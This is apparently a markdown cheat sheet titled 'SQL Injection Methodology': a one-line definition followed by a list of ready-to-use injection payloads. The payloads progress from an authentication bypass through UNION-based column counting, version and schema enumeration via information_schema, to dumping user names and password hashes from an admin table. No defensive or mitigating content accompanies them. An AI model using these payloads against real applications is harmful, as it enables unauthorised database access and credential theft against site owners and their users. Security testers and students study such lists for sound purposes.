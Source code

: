 #### SQL Injection Methodology
SQL injection is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution (e.g. to dump the database contents to the attacker).

```
' or1=1-- -

' UNION SELECT NULL,NULL,NULL,NULL-- -

' UNION SELECT 1,2,3,4-- -

123123' UNION SELECT NULL,NULL,NULL,NULL-- -

123123' UNION SELECT NULL,database(),NULL,NULL-- -

123123' UNION SELECT NULL,@@version,NULL,NULL-- -

123123' UNION SELECT NULL,table_name,NULL,NULL from information_schema.tables-- -

123123' UNION SELECT NULL,table_name,NULL,NULL from information_schema.tables-- -

123123' UNION SELECT NULL,table_name,table_schema,NULL from information_schema.tables-- -

123123' UNION SELECT NULL,column_name,table_schema,NULL from information_schema.columns-- -

123123' UNION SELECT NULL,column_name,table_name,NULL from information_schema.columns-- -

123123' UNION SELECT NULL,user,hash,NULL from admin-- -
```
